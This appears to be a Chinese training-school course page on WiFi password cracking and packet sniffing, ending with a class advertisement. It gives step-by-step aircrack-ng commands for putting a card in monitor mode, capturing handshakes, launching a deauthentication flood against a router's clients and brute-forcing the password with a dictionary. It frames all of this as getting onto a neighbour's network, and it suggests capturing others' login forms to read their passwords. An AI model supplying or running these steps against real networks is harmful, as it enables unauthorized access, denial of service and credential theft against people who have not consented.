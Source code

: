 [TOC]
# WIFI密码破解与网络数据抓包——传智播客C++学院
# 【课程介绍】
屌丝逆袭之蹭网利器，在女朋友面前炫耀一下自己的“黑客功底”，在Linux的世界里，其实这都不是什么难事；瘫痪路由器，发起网络攻击，抓包数据分析，加入"网络圣战"，进入Linux世界，轻松让你成为“高逼格”的IT达人。
# 【课程知识点】
1. Wifi密码破解原理剖析
2. 网络数据抓包与分析
3. 路由器攻击，瘫痪网络
4. 随心所欲，开发定制密码字典
5. 枚举字典，暴力破解
6. 轻松使用”隔壁老王“的wifi
# 【课程详情】
##  Wifi密码破解原理剖析
## Aircrack-ng
### 下载

	http://www.aircrack-ng.org/
	http://www.aircrack-ng.org/downloads.html
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz

### 安装

	sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev
	tar xvf aircrack-ng-1.2-rc2.tar.gz
	cd aircrack-ng-1.2-rc2
	make
	sudo make install
## WIFI 密码破解
1. 查看本机电脑无线网卡

	iwconfig  或者 ifconfig

2. 激活网卡到monitor模式，得到监控模式下的设备名为wlan0mon

	sudo airmon-ng  start  wlan0

3. 探测无线网络，选取破解路由器对象

	 sudo airodump-ng  wlang0mon

4. 设定监控频道，抓取被选定路由器的数据包，始终运行

	sudo airodump-ng  --ivs  -w  linuxcpp  -c  6  wlang0mon

	捕获的包存入linuxcp-0x.ivs 文件。x为序号

5. 新开终端，发起Deauth攻击，迫使客户端重新链接路由器

	sudo aireplay-ng  -0  1  -a 路由器MAC  -h  合法链接客户端MAC   wlan0mon

	De-Authentication DoS
	去验证洪水攻击，国际上称之为De-authentication Flood Attack，全称即去身份验证洪水攻击或去验证阻断洪水攻击，通常被简称为Deauth攻击，是无线网络拒绝服务攻击的一种形式，它旨在通过欺骗从AP到客户端单播地址的去身份验证帧来将客户端转为未关联的/未认证的状态。

如果Deauth攻击成功，airodump-ng捕获handshake ，此时可以ctrl+c终止airodump-ng抓包。

6. aircrack-ng 穷举字典，暴力破解

	sudo aircrack-ng  -w  dic  linuxcpp-01.ivs

	破解成功与否取决与字典是否涵盖全面，破解速度取决于硬件计算性能和字典优化

## 字典开发

##  网络数据抓包与分析

Wireshark是一个非常好用的抓包工具，当我们遇到一些和网络相关的问题时，可以通过这个工具进行分析，不过要说明的是，这只是一个工具，用法是非常灵活的。

wireshark下载地址

	https://www.wireshark.org/download.html

### 选取网卡

wireshark左上角，查找list那个钮。

### 设置抓包过滤器(CaptureFilters)

	语法： Protocol $ Direction $ Host(s) $ Value $ Logical Operations $ Other expression
	例子：  ip  src host  192.168.1.100 
	            tcp  dst  port  8080

#### Protocol（协议）:

可能的值: ether, fddi, ip, arp, rarp, decnet, lat, sca, moprc, mopdl, tcp and udp.

如果没有特别指明是什么协议，则默认使用所有支持的协议。

#### Direction（方向）:

可能的值: src, dst, src and dst, src or dst

如果没有特别指明来源或目的地，则默认使用 “src or dst” 作为关键字。
例如，”host 10.2.2.2″与”src or dst host 10.2.2.2″是一样的。

#### Host(s):

可能的值： net, port, host, portrange.

如果没有指定此值，则默认使用”host”关键字。
例如，”src 10.1.1.1″与”src host 10.1.1.1″相同。

#### Logical Operations（逻辑运算）:

可能的值：not, and, or.

否(“not”)具有最高的优先级。或(“or”)和与(“and”)具有相同的优先级，运算时从左至右进行。
例如:

	“not tcp port 3128 and tcp port 23″与”(not tcp port 3128) and tcp port 23″相同。
	“not tcp port 3128 and tcp port 23″与”not (tcp port 3128 and tcp port 23)”不同。

如果过滤器的语法是正确的，表达式的背景呈绿色。如果呈红色，说明表达式有误。

### 设置显示过滤器(DisplayFilters)

	语法： Protocol.String1.String2  $  Comparison operator  $  Value $ Logical Operations $ Other expression
	例子： ip.src==192.168.1.100  (显示来源为192.192.168.1.100的包)
	           tcp.port==80

### 网络封包分析

	捕获登陆某网站的表单，分析其账号和密码。

### 隔壁老王，蹭了你的网，看了你的信，就差......

如何防御呢？如何更灵活的进攻呢？欢迎大家走进传智播客c++学院，掌握高性能的c/c++语言，精通高B格的Linux系统编程，想要什么工具？自己写起。。。

## 广州c++分校开班 —— 2016年3月20号

## 北京总部c++开班 —— 2015年12月5号

	
